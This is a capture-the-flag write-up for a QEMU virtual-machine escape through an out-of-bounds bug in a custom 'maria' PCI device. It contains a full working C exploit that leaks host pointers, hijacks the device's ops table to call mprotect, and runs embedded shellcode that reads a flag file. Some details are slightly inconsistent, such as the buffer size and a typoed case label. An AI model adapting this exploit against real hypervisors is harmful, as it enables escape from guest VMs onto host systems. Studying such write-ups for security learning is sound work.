 # Solution

## Vulnerability

According to the source code of `maria_mmio_write`, you can set the `src` and `offset` freely through address 0x4 and 0x8.

```c
case 0x04:
    maria->state.src = val;
    break;
case 0x08:
    maria->state.off = val;
    break;
}
```

In addition, you can read/write to `buff[offset]` through accessing address 0x0:

```
case 0x0x0:
    cpu_physical_memory_rw(maria->state.src, &maria->buff[maria->state.off], BUFF_SIZE, 1);
```

```
case 0x00:
    cpu_physical_memory_rw(maria->state.src, &maria->buff[maria->state.off], BUFF_SIZE, 0);
```

Since you control the offset, if you set the offset to `0xff`, you can write at most `BUFF_SIZE` (0x100) bytes to &buff.

## Before you solve the challenge

1. The PCI device uses `cpu_physical_memory_rw`. Coincidentally,  the buffer size is 0x1000, which is exactly the same as `PAGE_SIZE`. This means that the buffer itself and data after the buffer might be mapped to different virtual memories!
    - Solution: [hugepage](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/performance_tuning_guide/s-memory-transhuge).

## Idea

1. First, you can set `src` to the contiguous pages and `offset` to `0xf0`. This way, after calling `mmio_read`, you can achieve out-of-bound read and obtain a bunch of pointers!
2. You can overwrite `mmio->ops` with a fake `ops` to change the behavior of `mmio->ops->read` and `mmio->ops->write`. In my case, I changed `mmio->ops->write` to `mprotect`, and `mmio->ops->read` to my shellcode that executes ORW
3. Invoke `mprotect` using `mmio_write` and the shellcode using `mmio_read`

## Exploit

```c
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>
#include <sys/io.h>
#include <sys/types.h>
#include <inttypes.h>

unsigned char *mmio_mem;

#define PAGE_SIZE 0x1000

void mmio_write(uint32_t addr, uint32_t value) {
    *(uint32_t *)(mmio_mem + addr) = value;
}

uint32_t mmio_read(uint32_t addr) {
    return *(uint32_t *)(mmio_mem + addr);
}

void set_src(uint32_t value) {
    mmio_write(0x04, value);
}

void set_off(uint32_t value) {
    mmio_write(0x08, value);
}

void get_buff() {
    mmio_read(0x00);
}

void set_buff() {
    mmio_write(0x00, 0);
}

uint64_t gva2gpa(void *addr){
    uint64_t page = 0;
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        fprintf(stderr, "[!] open error in gva2gpa\n");
        exit(1);
    }
    lseek(fd, ((uint64_t)addr / PAGE_SIZE) * 8, SEEK_SET);
    read(fd, &page, 8);
    return ((page & 0x7fffffffffffff) * PAGE_SIZE) | ((uint64_t)addr & 0xfff);
}

int main() {
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:05.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1) {
        fprintf(stderr, "[!] Cannot open /sys/devices/pci0000:00/0000:00:05.0/resource0\n");
        exit(1);
    }
    mmio_mem = mmap(NULL, PAGE_SIZE * 4, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED) {
        fprintf(stderr, "[!] mmio error\n");
        exit(1);
    }
    printf("[*] mmio done\n");

    // Set huge page
    system("sysctl vm.nr_hugepages=32");
    system("cat /proc/meminfo | grep -i huge");

    char *buff;
    uint64_t buff_gpa;
    while (1) {
        buff = mmap(0, 2 * PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_NONBLOCK, -1, 0);
        if (buff < 0) {
            fprintf(stderr, "[!] cannot mmap buff\n");
            exit(1);
        }
        memset(buff, 0, 2 * PAGE_SIZE);
        buff_gpa = gva2gpa(buff);
        uint64_t buff_gpa_1000 = gva2gpa(buff + PAGE_SIZE);
        if (buff_gpa + PAGE_SIZE == buff_gpa_1000) {
            break;
        }
    }
    printf("[*] buff virtual address = %p\n", buff);
    printf("[*] buff physical address = %p\n", buff_gpa);
    
    set_src(buff_gpa);
    set_off(0xf0);
    get_buff();

    uint64_t *buff_u64 = (uint64_t *)buff;
    uint64_t maria_buff_addr = buff_u64[0x3fa] - 0x20b8;
    uint64_t maria_addr = maria_buff_addr - 0xa30;
    //uint64_t qemu_base = buff_u64[0x3eb] - 0xfc26a0;
    uint64_t qemu_base = buff_u64[0x3eb] - 0xf1ff80;

    //uint64_t mprotect_plt = qemu_base + 0x31f880;
    uint64_t mprotect_plt = qemu_base + 0x30c400;


    printf("[*] maria->buff address = %p\n", maria_buff_addr);
    printf("[*] maria address = %p\n", maria_addr);
    printf("[*] qemu base address = %p\n", qemu_base);
    printf("[*] mprotect@plt address = %p\n", mprotect_plt);

    buff_u64[0x0] = maria_buff_addr + 0x4f0;
    //buff_u64[0x0] = 0xdeadbeefcafebabe;
    buff_u64[0x1] = mprotect_plt;

    /* shellcode */
    char shellcode[] = {
        0xeb, 0x10, 0x2f, 0x68, 0x6f, 0x6d, 0x65, 0x2f, 0x75, 0x73, 0x65, 0x72,
        0x2f, 0x66, 0x6c, 0x61, 0x67, 0x00, 0x6a, 0x02, 0x58, 0x48, 0x8d, 0x3d,
        0xe6, 0xff, 0xff, 0xff, 0x31, 0xf6, 0x0f, 0x05, 0x48, 0x97, 0x31, 0xc0,
        0x54, 0x5e, 0x6a, 0x70, 0x5a, 0x0f, 0x05, 0x48, 0x92, 0x6a, 0x01, 0x58,
        0x6a, 0x01, 0x5f, 0x54, 0x5e, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x6a, 0x3c,
        0x58, 0x0f, 0x05
    };
    memcpy(&buff_u64[0x80], shellcode, sizeof(shellcode));

    /* overwrite maria->mmio.ops and maria->mmio.opaque */
    buff_u64[0x3ec] = maria_buff_addr & ~0xfff;             // maria->mmio.opaque
    buff_u64[0x3eb] = maria_buff_addr + 0xf0;               // maria->mmio.ops
    buff_u64[0x3eb - (maria_addr & 0xfff) / 8] = maria_buff_addr + 0xf0;// (MariaState *)(maria_addr & 0xfff)->mmio.ops

    set_src(buff_gpa);
    set_off(0xf0);
    set_buff();

    mmio_write(0x2000, 0x7);
    mmio_read(0x0);
}
```
